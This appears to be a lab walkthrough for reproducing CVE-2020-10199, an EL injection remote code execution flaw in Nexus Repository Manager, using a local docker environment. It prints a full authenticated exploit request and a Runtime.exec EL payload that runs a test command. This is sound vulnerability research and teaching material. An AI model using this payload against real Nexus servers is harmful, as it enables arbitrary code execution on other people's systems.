

Nexus Repository Manager 3 Authenticated Remote Code Execution (CVE-2020-10199)¶
Nexus Repository Manager is a repository manager that organizes, stores and distributes artifacts needed for development.
In the version <= 3.21.1, a EL injection vulnerability has been discovered that allows for an attacker with any type of account on Nexus Repository to execute arbitrary code by crafting a malicious request to Nexus Repository.
References:
- https://support.sonatype.com/hc/en-us/articles/360044882533-CVE-2020-10199-Nexus-Repository-Manager-3-Remote-Code-Execution-2020-03-31
- https://github.com/threedr3am/learnjavabug/blob/93d57c4283/nexus/CVE-2020-10199/README.md
- https://github.com/jas502n/CVE-2020-10199
Vulnerable environment¶
Execute following command to start a Nexus Repository Manager version 3.21.1:
docker compose up -d
After the server is started, browse http://your-ip:8081 to see the home page of Nexus. Login the admin panel with account admin:admin and finish the initialize wizard.
Exploit¶
Copy your cookie and CSRF token then send following request:
POST /service/rest/beta/repositories/go/group HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 203
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: [csrf-token]
Content-Type: application/json
Accept: */*
Origin: http://127.0.0.1:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:8081/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: NX-ANTI-CSRF-TOKEN=[csrf-token]; NXSESSIONID=[session-id]
Connection: close
{
"name": "internal",
"online": true,
"storage": {
"blobStoreName": "default",
"strictContentTypeValidation": true
},
"group": {
"memberNames": ["$\\A{233*233*233}"]
}
}

Refer to https://github.com/jas502n/CVE-2020-10199, use EL expression payload $\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/success')} to execute command touch /tmp/success.